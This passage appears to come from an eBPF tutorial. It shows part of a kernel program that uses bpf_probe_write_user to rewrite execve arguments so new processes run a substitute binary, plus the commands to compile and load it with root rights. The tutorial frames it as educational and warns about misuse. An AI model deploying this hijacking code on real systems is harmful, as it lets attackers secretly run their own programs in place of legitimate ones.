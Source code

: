```c
    prog_name[0] = '/';
    prog_name[1] = 'a';
    for (int i = 2; i < TASK_COMM_LEN ; i++) {
        prog_name[i] = '\x00';
    }
    long ret = bpf_probe_write_user((void*)ctx->args[0], &prog_name, 3);

    // Send an event
    struct event *e;
    e = bpf_ringbuf_reserve(&rb, sizeof(*e), 0);
    if (e) {
        e->success = (ret == 0);
        e->pid = (pid_tgid >> 32);
        for (int i = 0; i < TASK_COMM_LEN; i++) {
            e->comm[i] = prog_name_orig[i];
        }
        bpf_ringbuf_submit(e, 0);
    }

    return 0;
}
```

Analysis of the kernel code:

- Execute `bpf_get_current_pid_tgid` to get the current process ID and thread group ID.
- If `target_ppid` is set, the code checks if the current process's parent process ID matches.
- Read the program name from the first argument of `execve`.
- Use `bpf_probe_write_user` to overwrite the argument with a hijacked binary path.

This approach poses a risk as it can be leveraged to hijack the behavior of software, resulting in the execution of malicious code on the system. Using ecc and ecli to compile and run:

```bash
./ecc exechijack.bpf.c exechijack.h
sudo ./ecli run package.json
```

## Conclusion

eBPF provides powerful capabilities for real-time monitoring and intervention in running systems. When used in conjunction with appropriate governance and security policies, this can bring many benefits such as enhanced security, performance optimization, and operational convenience. However, this technology must be used with great care as incorrect operations or misuse can result in system disruption or serious security incidents. In practice, it should be ensured that only authorized users and programs can deploy and manage eBPF programs, and their behavior should be validated in isolated test environments before they are applied in production.
